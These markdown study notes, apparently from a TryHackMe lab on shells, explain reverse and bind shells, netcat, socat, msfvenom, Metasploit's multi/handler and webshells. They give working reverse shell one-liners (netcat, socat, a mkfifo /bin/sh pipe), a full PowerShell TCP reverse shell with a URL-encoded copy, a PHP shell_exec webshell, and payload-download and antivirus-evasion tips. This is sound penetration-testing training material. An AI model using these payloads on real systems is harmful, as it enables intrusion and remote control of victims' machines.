

# What the Shell

- [Types of Shells](#types-of-shells)
  - [Reverse shells](#reverse-shells)
  - [Bind shells](#bind-shells)
  - [Interactive Shell](#interactive-shell)
  - [Non-Interactive Shell](#non-interactive-shell)
- [Netcat](#netcat)
  - [Reverse Shell Listener](#reverse-shell-listener)
  - [Bind Shell](#bind-shell)
  - [Stabilisation](#stabilisation)
- [Socat](#socat)
  - [Socat Reverse Shells](#socat-reverse-shells)
  - [Socat Bind Shells](#socat-bind-shells)
  - [a fully stable Linux tty reverse shell](#a-fully-stable-linux-tty-reverse-shell)
  - [Socat Encrypted Shells](#socat-encrypted-shells)
- [Common Shell Payload](#common-shell-payload)
- [MSFVENOM](#msfvenom)
  - [Staged vs Stageless](#staged-vs-stageless)
  - [Meterpreter](#meterpreter)
  - [Payload Naming Conventions](#payload-naming-conventions)
- [Metasploit multi/handler](#metasploit-multihandler)
- [Webshells](#webshells)

## Types of Shells

### Reverse shells

when the target is forced to execute code that connects back to your computer  
good way to bypass firewall rules that may prevent you from connecting to arbitrary ports on the target  
need to configure your own network to accept the shell  

### Bind shells

when the code executed on the target is used to start a listener attached to a shell directly on the target  
This would then be opened up to the internet, meaning you can connect to the port that the code has opened and obtain remote code execution  
has the advantage of not requiring any configuration on your own network, but may be prevented by firewalls protecting the target  

### Interactive Shell  

Powershell, Bash, Zsh, sh, or any other standard CLI  
allow you to interact with programs after executing them ( )

### Non-Interactive Shell

limited to using programs which do not require user interaction in order to run properly  
majority of simple reverse and bind shells are non-interactive  
can make further exploitation trickier

## Netcat

traditional "Swiss Army Knife" of networking  
used to manually perform network interactions  
used to receive reverse shells and connect to remote ports attached to bind shells on a target system  
shells are very unstable (easy to lose)  

### Reverse Shell Listener

`:> nc -lvnp <port-number>`

- l is used to tell netcat that this will be a listener
- v is used to request a verbose output
- n tells netcat not to resolve host names or use DNS. Explaining this is outwith the scope of the room.
- p indicates that the port specification will follow.

### Bind Shell

If we are looking to obtain a bind shell on a target then we assume that there is already a listener waiting for us on a chosen port of the target  

`nc <target-ip> <chosen-port>` : using netcat to make an outbound connection to the target on our chosen port.

### Stabilisation

#### Python

***linux only***

1. `python -c 'import pty;pty.spawn("/bin/bash")'` : uses Python to spawn a better featured bash shell; will look a bit prettier, still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell
2. `export TERM=xterm` : gives access to term commands such as clear
3. background the shell using `Ctrl + Z`
4. Back in our own terminal we use `stty raw -echo; fg` : first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). Second, foregrounds the shell, thus completing the process

Note:  if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.

#### rlwrap

a program giving access to history, tab autocompletion and the arrow keys immediately upon receiving a shell  
requires some manual stabilisation for use of `Ctrl + C` inside the shell  
not installed by default on Kali : `:> sudo apt install rlwrap`

To invoke : `:> rlwrap nc -lvnp <port>`

Prepending the netcat listener with `rlwrap` gives more fully featured shell  
particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise  
When dealing with a Linux target, it's possible to completely stabilise, by using:  

1. background the shell using `Ctrl + Z`
2. Back in our own terminal we use `stty raw -echo; fg` : first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). Second, foregrounds the shell, thus completing the process

#### socat stabilisation

The third easy way to stabilise a shell is to use an initial netcat shell as a stepping stone into a more fully-featured socat shell  
this technique is ***limited to Linux targets***  
a Socat shell on Windows will be no more stable than a netcat shell  

To accomplish this method of stabilisation:  
transfer a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) (a version of the program compiled to have no dependencies) up to the target machine  

Transfer Methods:  
On attacking machine: python webserver inside the directory containing your socat binary : `:> sudo python3 -m http.server 80`  
On Target Machine use netcat shell to download the file  
On ***Linux*** this would be accomplished with curl or wget (wget <LOCAL-IP>/socat -O /tmp/socat)  
On ***Windows*** using `:> Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe` 

First, open another terminal and run `:> stty -a`. This will give you a large stream of output. Note down the values for "rows" and columns  
Next, in your reverse/bind shell, type in:  

`:> stty rows <number>`

and

`:> tty cols <number>`

Fill in the numbers you got from running the command in your own terminal.

This will change the registered width and height of the terminal, thus allowing programs such as text editors which rely on such information being accurate to correctly open.  

## Socat

netcat on steroids  
Socat shells are usually more stable than netcat shells out of the box  
vastly superior to netcat  
two big catches:

- The syntax is more difficult
- Netcat is installed on virtually every Linux distribution by default. Socat is very rarely installed by default.

### Socat Reverse Shells

syntax for socat gets more difficultat.

`:> socat TCP-L:<port> -` : basic reverse shell listener connecting a listening port and standard input  
The resulting shell is unstable  
will work on either Linux or Windows  
equivalent to `:> nc -lvnp <port>`

On Windows we would use this command to connect back: `:> socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`

The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

This is the equivalent command for a Linux Target: `:> socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

### Socat Bind Shells

On a Linux target we would use the following command: `:> socat TCP-L:<PORT> EXEC:"bash -li"`

On a Windows target we would use this command for our listener: `:> socat TCP-L:<PORT> EXEC:powershell.exe,pipes`

We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener : `:> socat TCP:<TARGET-IP>:<TARGET-PORT> -`

### a fully stable Linux tty reverse shell 

only works when the target is Linux  
significantly more stable  
listener syntax : `:> socat TCP-L:<port> FILE:`tty`,raw,echo=0`

connecting two points together : a listening port, and a file  
passing in the current TTY as a file and setting the echo to be zero. This is approximately equivalent to using the `Ctrl + Z`, `stty raw -echo; fg` trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.

The first listener can be connected to with any payload  
this listener must be activated with a very specific socat command
the target must have socat installed
it's possible to upload a precompiled socat binary, which can then be executed as normal.

The special command to activate the listener : `:> socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

The first part links up with the listener running on our own machine  
The second part of the command creates an interactive bash session with `EXEC:"bash -li"`  
passing the arguments: pty, stderr, sigint, setsid and sane:

`pty` : allocates a pseudoterminal on the target -- part of the stabilisation process
`stderr` : makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
`sigint` : passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
`setsid` :  creates the process in a new session
`sane` : stabilises the terminal, attempting to "normalise" it.

If a socat shell is not working correctly, increase the verbosity by adding -d -d into the command. This is very useful for experimental purposes, but is not usually necessary for general use.

### Socat Encrypted Shells

Encrypted shells cannot be spied on unless you have the decryption key  
often able to bypass an IDS as a result.
any time `TCP` was used in previous examples, this should be replaced with `OPENSSL` when working with encrypted shells

We first need to generate a certificate, on the attacking machine, in order to use encrypted shells.  
`:> openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`  

creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year  
When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.
We then need to merge the two created files into a single .pem file:

`:> cat shell.key shell.crt > shell.pem`

Now, when we set up our reverse shell listener, we use:

`:> socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`

This sets up an OPENSSL listener using our generated certificate. verify=0 tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate must be used on whichever device is listening.

To connect back, we would use:

`:> socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`

The same technique would apply for a bind shell:

Target:

`:> socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`

Attacker:

`:> socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`

Note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.

## Common Shell Payload

[common reverse shell payloads](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/)  

In some versions of ***netcat*** there is an `-e` option which allows you to execute a process on connection. For example, as a listener:

`:> nc -lvnp <PORT> -e /bin/bash`

Connecting to the above listener with netcat would result in a bind shell on the target.

For a reverse shell, connecting back with `:> nc <LOCAL-IP> <PORT> -e /bin/bash` would result in a reverse shell on the target.

not included in most versions of netcat as it is widely seen to be very insecure  
On Windows where a static binary is nearly always required anyway, this technique will work perfectly  

On ***Linux***, use this code to create a listener for a bind shell:

`:> mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

The command first creates a named pipe at /tmp/f.  
It then starts a netcat listener, and connects the input of the listener to the output of the named pipe.  
The output of the netcat listener (i.e. the commands we send) then gets piped directly into sh, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.

A very similar command can be used to send a netcat reverse shell:

`:> mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

This command is virtually identical to the previous one, other than using the netcat connect syntax, as opposed to the netcat listen syntax.

When targeting a modern ***Windows Server***, it is very common to require a Powershell reverse shell, so we'll be covering the standard one-liner PSH reverse shell here.

This command is very convoluted. It is an extremely useful one-liner to keep on hand:

`:> powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

In order to use this, we need to replace `<IP>` and `<port>` with an appropriate IP and choice of port. It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a webshell) and executed, resulting in a reverse shell:

## MSFVENOM

Part of the Metasploit framework  
msfvenom is used to generate code for primarily reverse and bind shells  
It is used extensively in lower-level exploit development to generate hexadecimal shellcode when developing something like a Buffer Overflow exploit  
it can also be used to generate payloads in various formats (e.g. .exe, .aspx, .war, .py)  

The standard syntax for msfvenom is as follows:

`:> msfvenom -p <PAYLOAD> <OPTIONS>`

For example, to generate a Windows x64 Reverse Shell in an exe format: 

`:> msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`

`-f <format>` : Specifies the output format. In this case that is an executable (exe)
`-o <file>` : The output location and filename for the generated payload.
`LHOST=<IP>` : Specifies the IP to connect back to. When using TryHackMe, this will be your tun0 IP address. If you cannot load the link then you are not connected to the VPN.
`LPORT=<port>` : The port on the local machine to connect back to. This can be anything between 0 and 65535 that isn't already in use; however, ports below 1024 are restricted and require a listener running with root privileges.

### Staged vs Stageless

#### Staged payloads

Staged payloads are harder to use, but the initial stager is a lot shorter, and is sometimes missed by less-effective antivirus software.
sent in two parts  
first part is called the ***stager***
This is a piece of code which is executed directly on the server itself  
It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself  
It connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions  
Thus the payload is split into two parts -- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated  
Staged payloads require a special listener -- usually the Metasploit multi/handler  

#### Stageless payloads

Entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.    
easier to use and catch  
bulkier and easier for an antivirus or intrusion detection program to discover and remove  

### Meterpreter

Meterpreter shells are Metasploit's own brand of fully-featured shell.  
They are completely stable, making them a very good thing when working with Windows targets.  
They also have a lot of inbuilt functionality of their own, such as file uploads and downloads.  
If we want to use any of Metasploit's post-exploitation tools then we need to use a meterpreter shell
The downside to meterpreter shells is that they must be caught in Metasploit.

### Payload Naming Conventions

When working with msfvenom, it's important to understand how the naming system works. The basic convention is as follows: `<OS>/<arch>/<payload>`

For example This would generate a stageless reverse shell for an x86 Linux target: `linux/x86/shell_reverse_tcp`  

The exception to this convention is Windows 32bit targets. For these, the arch is not specified. e.g.: `windows/shell_reverse_tcp`

For a 64bit Windows target, the arch would be specified as normal (x64).  

In the above examples the payload used was shell_reverse_tcp. This indicates that it was a stageless payload. How? Stageless payloads are denoted with underscores (_).  
The staged equivalent to this payload would be: `shell/reverse_tcp`
As staged payloads are denoted with another forward slash (/).

This rule also applies to Meterpreter payloads. A Windows 64bit staged Meterpreter payload would look like this:

`windows/x64/meterpreter/reverse_tcp`

A Linux 32bit stageless Meterpreter payload would look like this:

`linux/x86/meterpreter_reverse_tcp`

Aside from the msfconsole man page, the other important thing to note when working with msfvenom is:

`msfvenom --list payloads` which can then be piped into `grep` to search for a specific set of payloads.

## Metasploit multi/handler

The `exploit/multi/handler` module of the Metasploit framework used to receive reverse shells  
provides a fully-fledged way to obtain stable shells  
the only way to interact with a meterpreter shell, and is the easiest way to handle staged payloads  

Multi/Handler is a superb tool for catching reverse shells.  
It's essential if you want to use Meterpreter shells, and is the go-to when using staged payloads.

Relatively easy to use: 

1. Open Metasploit with `:> msfconsole`
2. Type `use multi/handler`, and press enter  

look at the available options using the `options`  command:  

  

There are three options we need to set:  

- `set PAYLOAD <payload>`  
- `set LHOST <listen-address>`  
- `set LPORT <listen-port>`  

We should now be ready to start the listener with `:> exploit -j`  
This tells Metasploit to launch the module, running as a job in the background.

When the staged payload generated in the previous task is run, Metasploit receives the connection, sending the remainder of the payload and giving us a reverse shell.

Notice that, because the multi/handler was originally backgrounded, we needed to use `:> sessions 1` to foreground it again.  
This worked as it was the only session running. Had there been other sessions active, we would have needed to use sessions to see all active sessions, then use `:> sessions <number>` to select the appropriate session to foreground.

## Webshells  

"Webshell" is a colloquial term for a script that runs inside a webserver (usually in a language such as PHP or ASP) which executes code on the server.  
Commands are entered into a webpage -- either through a HTML form, or directly as arguments in the URL -- which are then executed by the script, with the results returned and written to the page.  
This can be extremely useful if there are firewalls in place, or even just as a stepping stone into a fully fledged reverse or bind shell.

In a very basic one line PHP format:

`<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`

This will take a `GET` parameter in the URL and execute it on the system with shell_exec().  
any commands entered in the URL after `?cmd=` will be executed on the system -- be it Windows or Linux.  
The "pre" elements are to ensure that the results are formatted correctly on the page.

When the target is Windows, it is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server.  
With the former method, obtaining RCE is often done with a URL Encoded Powershell Reverse Shell. This would be copied into the URL as the cmd argument:

`powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22`
